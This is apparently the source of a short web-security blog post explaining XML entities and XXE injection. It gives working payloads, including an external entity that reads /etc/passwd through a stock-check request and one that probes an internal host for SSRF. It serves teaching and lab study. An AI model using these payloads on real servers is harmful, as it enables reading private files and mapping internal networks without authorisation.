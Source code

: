 ```yaml
---
layout: post
title: XXE (XML External Entity) Injection
date: 2025-04-10 17:35 +0300
categories: [Web Security, Server-Side Attacks]
---
```


## XML Entity Basics

### XML Custom/Internal Entities
```xml
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
```
Usage: `&myentity;` will be replaced with "my entity value"

### XML External Entities
```xml
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```
Usage: `&ext;` will be replaced with contents of the referenced file

### XML Parameter Entities
```xml
<!DOCTYPE foo [ <!ENTITY % param "parameter entity value" > ]>
```
Usage: `%param;` (only usable within DTD)

## XXE Attack Techniques

### Basic File Retrieval
Original XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

Malicious XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### XXE for SSRF (Server-Side Request Forgery)

#### Internal Network Scanning
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
